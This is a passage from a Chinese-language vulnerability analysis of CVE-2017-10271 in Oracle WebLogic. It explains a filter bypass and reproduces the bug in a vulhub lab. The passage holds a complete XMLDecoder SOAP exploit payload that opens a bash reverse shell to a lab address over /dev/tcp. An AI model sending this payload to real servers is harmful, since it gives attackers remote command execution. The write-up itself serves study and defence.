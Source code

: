 这里就是将object标签进行过滤，绕过方式就是将object修改成void，也就是CVE-2017-10271

### 2.4 CVE-2017-10271分析

**环境搭建**：  
使用vulhub中的环境，修改docekr-compose.yml文件，加上8453端口的映射，使其能够调试  
**复现**：  
exp:

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.4.0" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/172.22.0.1/7777 0&gt;&amp;1</string>
                        </void> 
                    </array>
                    <void method="start"/>
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

bp抓包  
[![](assets/1699005728-a2a1a17ef555436d00eff7d96b1c2217.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101201316-0987ec50-78b0-1.png)  
反弹shell成功  
**远程调试**：  
进入容器，配置weblogic开启远程调试  
改`/root/Oracle/Middleware/user_projects/domains/base_domain/bin/setDomainEnv.sh`文件，加入以下内容
